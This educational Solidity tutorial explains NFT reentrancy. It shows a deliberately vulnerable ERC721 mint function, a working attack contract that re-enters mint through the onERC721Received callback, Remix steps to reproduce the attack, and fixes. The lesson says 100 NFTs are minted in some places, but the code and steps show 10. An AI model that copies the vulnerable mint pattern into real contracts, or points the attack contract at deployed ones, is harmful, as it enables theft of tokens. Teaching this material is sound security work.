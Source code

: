 ```yaml
---
title: S16. NFT Reentrancy Attack
tags:
    - solidity
    - security
    - fallback
    - nft
    - erc721
    - erc1155
---
```


# WTF Solidity S16. NFT Reentrancy Attack

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

-----

In this lesson, we will discuss the reentrancy vulnerability in NFT contracts and attack a vulnerable NFT contract to mint 100 NFTs.

## NFT Reentrancy Risk

In [S01 Reentrancy Attack](https://github.com/AmazingAng/WTF-Solidity/blob/main/Languages/en/S01_ReentrancyAttack_en/readme.md), we discussed that reentrancy attack is one of the most common attacks in smart contracts, where an attacker exploits contract vulnerabilities (e.g., `fallback` function) to repeatedly call the contract and transfer assets or mint a large number of tokens. When transferring NFTs, the contract's `fallback` or `receive` functions are not triggered. So why is there a reentrancy risk?

This is because the NFT standards ([ERC721](https://github.com/AmazingAng/WTF-Solidity/blob/main/Languages/en/34_ERC721_en/readme.md)/[ERC1155](https://github.com/AmazingAng/WTF-Solidity/blob/main/Languages/en/40_ERC1155_en/readme.md)) have introduced secure transfers to prevent users from accidentally sending assets to a black hole. If the recipient address is a contract, it will call the corresponding check function to ensure that it is ready to receive the NFT asset. For example, the `safeTransferFrom()` function of ERC721 calls the `onERC721Received()` function of the target address, and a hacker can embed malicious code in it to launch an attack.

We have summarized the functions in ERC721 and ERC1155 that have potential reentrancy risks:

![](./img/S16-1.png)

## Vulnerable Example

Now let's learn an example of an NFT contract with a reentrancy vulnerability. This is an `ERC721` contract where each address can mint one NFT for free, but we can exploit the reentrancy vulnerability to mint multiple NFTs at once.

### Vulnerable Contract

The `NFTReentrancy` contract inherits from the `ERC721` contract. It has two main state variables: `totalSupply` to track the total supply of NFTs and `mintedAddress` to keep track of addresses that have already minted to prevent a user from minting multiple times. It has two main functions:
- Constructor: Initializes the name and symbol of the `ERC721` NFT.
- `mint()`: Mint function where each user can mint one NFT for free. **Note: This function has a reentrancy vulnerability!**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // Constructor to initialize the name and symbol of the NFT collection
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // Mint function, each user can only mint 1 NFT
    // Contains a reentrancy vulnerability
    function mint() payable external {
        // Check if already minted
        require(mintedAddress[msg.sender] == false);
        // Increase total supply
        totalSupply++;
        // Mint the NFT
        _safeMint(msg.sender, totalSupply);
        // Record the minted address
        mintedAddress[msg.sender] = true;
    }
}
```

### Attack Contract

The reentrancy vulnerability in the `NFTReentrancy` contract lies in the `mint()` function, which calls the `_safeMint()` function in the `ERC721` contract, which in turn calls the `_checkOnERC721Received()` function of the recipient address. If the recipient address's `_checkOnERC721Received()` contains malicious code, an attack can be performed.

The `Attack` contract inherits the `IERC721Receiver` contract and has one state variable `nft` that stores the address of the vulnerable NFT contract. It has three functions:
- Constructor: Initializes the address of the vulnerable NFT contract.
- `attack()`: Attack function that calls the `mint()` function of the NFT contract and initiates the attack.
- `onERC721Received()`: ERC721 callback function with embedded malicious code that repeatedly calls the `mint()` function and mints 10 NFTs.

```solidity
contract Attack is IERC721Receiver {
    NFTReentrancy public nft; // Address of the NFT contract

    // Initialize the NFT contract address
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // Attack function to initiate the attack
    function attack() external {
        nft.mint();
    }

    // Callback function for ERC721, repeatedly calls the mint function to mint 10 NFTs
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Reproduce on `Remix`

1. Deploy the `NFTReentrancy` contract.
2. Deploy the `Attack` contract with the `NFTReentrancy` contract address as the parameter.
3. Call the `attack()` function of the `Attack` contract to initiate the attack.
4. Call the `balanceOf()` function of the `NFTReentrancy` contract to check the holdings of the `Attack` contract. You will see that it holds `10` NFTs, indicating a successful attack.

![](./img/S16-2.png)

## How to Prevent

There are two main methods to prevent reentrancy attack vulnerabilities: checks-effects-interactions pattern and reentrant guard.

1. Checks-Effects-Interactions Pattern: This pattern emphasizes checking the state variables, updating the state variables (e.g., balances), and then interacting with other contracts. We can use this pattern to fix the vulnerable `mint()` function:

  ```solidity
    function mint() payable external {
        // Check if already minted
        require(mintedAddress[msg.sender] == false);
        // Increase total supply
        totalSupply++;
        // Record the minted address
        mintedAddress[msg.sender] = true;
        // Mint the NFT
        _safeMint(msg.sender, totalSupply);
    }
  ```

2. Reentrant Lock: It is a modifier used to prevent reentrant functions. It is recommended to use [ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol) provided by OpenZeppelin.

## Summary

In this lesson, we introduced the reentrancy vulnerability in NFTs and attacked a vulnerable NFT contract by minting 100 NFTs. Currently, there are two main methods to prevent reentrancy attacks: the checks-effects-interactions pattern and the reentrant lock.